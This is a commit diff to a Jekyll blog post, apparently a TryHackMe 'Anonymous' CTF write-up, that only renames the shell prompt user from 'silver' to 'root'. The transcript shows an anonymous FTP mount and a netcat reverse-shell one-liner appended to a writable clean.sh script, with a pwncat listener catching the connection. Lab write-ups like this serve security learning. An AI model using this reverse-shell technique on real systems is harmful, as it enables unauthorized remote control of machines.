

Before and after one commit to darksec1337/darksec1337.github.io, a Jekyll site: the page built from _posts/2020-08-26-anonymous-writeup.md, in a window 1280 px wide and 1400 px high, scrolled down 3566 px. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; nearby versions of some CDN libraries; comment, search, counter and statistics services are not loaded.

Commit message:
Update 2020-08-26-anonymous-writeup.md

````diff
--- a/_posts/2020-08-26-anonymous-writeup.md
+++ b/_posts/2020-08-26-anonymous-writeup.md
@@ -153,28 +153,28 @@ Let's move on to Exploitation part.
 
 ### Exploitation
 ```bash
-silver@parrot  ~/Desktop/tryhackme/anonymous/nmap  curlftpfs anonymous:anon@10.10.74.228 /home/silver/Desktop/tryhackme/anonymous/nmap/my_ftp
+root@parrot  ~/Desktop/tryhackme/anonymous/nmap  curlftpfs anonymous:anon@10.10.74.228 /home/silver/Desktop/tryhackme/anonymous/nmap/my_ftp
  silver@parrot  ~/Desktop/tryhackme/anonymous/nmap  lks
 zsh: correct 'lks' to 'ls' [nyae]? y
 my_ftp  pickhill.gnmap  pickhill.nmap  pickhill.xml
- silver@parrot  ~/Desktop/tryhackme/anonymous/nmap  cd my_ftp
+ root@parrot  ~/Desktop/tryhackme/anonymous/nmap  cd my_ftp
 ls
- silver@parrot  ~/Desktop/tryhackme/anonymous/nmap/my_ftp  ls
+ root@parrot  ~/Desktop/tryhackme/anonymous/nmap/my_ftp  ls
 scripts
- silver@parrot  ~/Desktop/tryhackme/anonymous/nmap/my_ftp  ls -la
+ root@parrot  ~/Desktop/tryhackme/anonymous/nmap/my_ftp  ls -la
 total 4
 drwxr-xr-x 1 root   root   1024 Jan  1  1970 .
 drwxr-xr-x 1 silver silver   90 Aug 26 11:15 ..
 drwxrwxrwx 2 root   root   4096 Jun  4 19:26 scripts
  silver@parrot  ~/Desktop/tryhackme/anonymous/nmap/my_ftp  cd scripts
- silver@parrot  ~/Desktop/tryhackme/anonymous/nmap/my_ftp/scripts  ls -la
+ root@parrot  ~/Desktop/tryhackme/anonymous/nmap/my_ftp/scripts  ls -la
 total 16
 drwxrwxrwx 2 root root 4096 Jun  4 19:26 .
 drwxr-xr-x 1 root root 1024 Jan  1  1970 ..
 -rwxr-xrwx 1 root root  314 Jun  4 19:24 clean.sh
 -rw-rw-r-- 1 root root 2580 Aug 26 05:47 removed_files.log
 -rw-r--r-- 1 root root   68 May 12 03:50 to_do.txt
- silver@parrot  ~/Desktop/tryhackme/anonymous/nmap/my_ftp/scripts  cat clean.sh
+ root@parrot  ~/Desktop/tryhackme/anonymous/nmap/my_ftp/scripts  cat clean.sh
 #!/bin/bash
 
 tmp_files=0
@@ -186,7 +186,7 @@ else
     for LINE in $tmp_files; do
         rm -rf /tmp/$LINE && echo "$(date) | Removed file /tmp/$LINE" >> /var/ftp/scripts/removed_files.log;done
 fi
- silver@parrot  ~/Desktop/tryhackme/anonymous/nmap/my_ftp/scripts  echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.9.124.57 4444 >/tmp/f" >> clean.sh
+ root@parrot  ~/Desktop/tryhackme/anonymous/nmap/my_ftp/scripts  echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.9.124.57 4444 >/tmp/f" >> clean.sh
 zsh: operation not supported: clean.sh
  ✘ silver@parrot  ~/Desktop/tryhackme/anonymous/nmap/my_ftp/scripts  ls -la
 total 16
@@ -196,12 +196,12 @@ drwxr-xr-x 1 root root 1024 Jan  1  1970 ..
 -rw-rw-r-- 1 root root 2709 Aug 26 05:50 removed_files.log
 -rw-r--r-- 1 root root   68 May 12 03:50 to_do.txt
 nano clean.sh
- silver@parrot  ~/Desktop/tryhackme/anonymous/nmap/my_ftp/scripts  nano clean.sh
- silver@parrot  ~/Desktop/tryhackme/ano
+ root@parrot  ~/Desktop/tryhackme/anonymous/nmap/my_ftp/scripts  nano clean.sh
+ root@parrot  ~/Desktop/tryhackme/ano
 
 Here we go our reverse shell:-
 
- silver@parrot  ~/Desktop/tryhackme/anonymous/nmap/my_ftp/scripts  pwncat --listen --port 4444
+ root@parrot  ~/Desktop/tryhackme/anonymous/nmap/my_ftp/scripts  pwncat --listen --port 4444
 [11:44:44] received connection from 10.10.74.228:44016                                                                 connect.py:148
 [11:44:47] new host w/ hash 9bc647e33bc8a15fe1850dcd4a2752c1                                                            victim.py:329
 [11:45:05] pwncat running in /bin/sh                                                                                    victim.py:363
````
